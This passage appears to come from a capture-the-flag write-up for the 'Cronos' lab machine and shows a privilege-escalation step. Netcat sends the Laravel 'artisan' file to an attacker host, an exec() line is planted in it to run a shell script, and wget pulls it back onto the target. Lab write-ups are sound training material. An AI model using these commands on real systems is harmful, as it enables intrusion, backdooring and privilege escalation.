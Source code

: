 Transfer the "artisan" file to our attacker machine, modify it and send it back.

On the target:

```
www-data@cronos:/var/www/laravel$ nc -nv 10.10.14.6 9898 < artisan
nc -nv 10.10.14.6 9898 < artisan
Connection to 10.10.14.6 9898 port [tcp/*] succeeded!
www-data@cronos:/var/www/laravel$
```

On our attacker machine:

```
└─$ nc -nvlp 9898 > artisan
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9898
Ncat: Listening on 0.0.0.0:9898
Ncat: Connection from 10.10.10.13.
Ncat: Connection from 10.10.10.13:53856.
                                       
```

Modify the file by adding a line of PHP code. We'll use the "exec" function to execute our shell script:

```
└─$ head -4 artisan
#!/usr/bin/env php
<?php
exec('/var/www/laravel/priv.sh');
/*
                   
```

Send the file back to the target:

On the attacker machine:

```
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.13 - - [29/Nov/2021 05:34:04] "GET /artisan HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                          
```

On the target:

```
www-data@cronos:/var/www/laravel$ mv artisan artisan.old
mv artisan artisan.old
www-data@cronos:/var/www/laravel$ wget 10.10.14.6:8000/artisan
wget 10.10.14.6:8000/artisan
--2021-11-29 12:34:24--  http://10.10.14.6:8000/artisan
Connecting to 10.10.14.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1671 (1.6K) [application/octet-stream]
Saving to: 'artisan'

artisan             100%[===================>]   1.63K  --.-KB/s    in 0s      

2021-11-29 12:34:24 (261 MB/s) - 'artisan' saved [1671/1671]

www-data@cronos:/var/www/laravel$ ls -la artisan
ls -la artisan
-rw-r--r--  1 www-data www-data    1671 Nov 29 12:35 artisan
www-data@cronos:/var/www/laravel$ chmod +x artisan
chmod +x artisan
```
